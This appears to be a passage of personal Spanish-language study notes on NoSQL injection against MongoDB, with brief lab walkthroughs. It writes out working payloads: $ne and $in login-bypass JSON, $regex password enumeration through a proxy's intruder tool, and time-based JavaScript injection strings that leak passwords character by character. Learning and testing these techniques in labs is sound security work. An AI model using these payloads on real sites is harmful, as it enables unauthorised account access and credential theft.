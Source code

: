- en URL --> `username[$ne]=invalid`
- Si no funciona probaremos método de solicitud de `GET`a `POST`
- Cambiar el `Content-Type`cabeza de a `application/json`.
- Añadir JSON al cuerpo del mensaje.
- Inyectar operadores de consulta en el JSON.

#Operadores
- `$where`- Coincide con documentos que satisfacen una expresión de JavaScript.
- `$ne`- Coincide con todos los valores que no son iguales a un valor especificado.
- `$in`- Coincide con todos los valores especificados en un array.
- `$regex`- Selecciona los documentos en los que los valores coinciden con una expresión regular especificada.
- Lo siguiente quiere decir, que si el JSOn no procesa esta entrada, mostrará todos los users y passwords diferentes a invalid
 `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
 - Lo siguiente apunta a una de esas cuentas con una contraseña distinta de ' '
 `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`
 - Tras enumerar usuarios podemos mandar esto al intruder para averiguar la passwd desde el JSON
 `{"username":"admin","password":{"$regex":"^a*"}}`
 - Tambien podemos saber la passwd probando caracteres si la web tarda en cargar el tiempo que le decimos:
  `admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'`
  `admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'`
## Restricciones
- Si la consulta de MongoDB lleva this.released == 1, significa que no atenderá a una interacción que no sea la que pide
- Utilizaremos un byte nulo --> =Gift'%00
## Insatlaremos Content Type Converter:
Extensión que convierte las peticiones de JSON a XML o viceversa
### Lab - Detectando NoSQL injection
Poniendo `'` ya conseguimos un error, también obtenemos alguna ruta de un JS y el puerto donde corre el servicio MONGODB
![[Pasted image 20240403142550.png]]
Pnemos `'||1||'` y sale en el output por lo que es inyectable
![[Pasted image 20240403143036.png]]

### Lab - Explotando operadores NoSQL
En la petición POST de LOGIN y observamos cómo hay algún error por lo que la web es inyectable
![[Pasted image 20240404110207.png]]
![[Pasted image 20240404110318.png]]
Utilizamos expresión regular, no nos da error por lo que copiamos la petición y  visitamos la página para que el navegador procese el login
![[Pasted image 20240404111926.png]]
![[Pasted image 20240404111949.png]]
